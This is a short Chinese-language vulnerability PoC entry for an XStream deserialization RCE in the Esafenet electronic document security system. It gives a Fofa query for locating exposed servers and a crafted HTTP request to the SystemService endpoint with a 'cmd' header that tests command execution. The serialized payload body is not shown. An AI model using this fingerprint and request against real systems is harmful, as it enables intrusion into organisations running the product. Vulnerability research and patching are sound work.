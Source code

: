 # 示例：亿赛通电子文档安全管理系统 XStream反序列化 RCE

<u></u>





### 漏洞描述：示例：亿赛通电子文档安全管理系统 XStream反序列化 RCE



### Fofa语句：示例：：app="亿赛通-电子文档安全管理系统"



### 漏洞复现：

```
GET /CDGServer3/SystemService?command=GETSYSTEMINFO HTTP/1.1
Host: 
Cookie: 
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-CN;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close
Content-Length: 14756
cmd:echo MIST
```

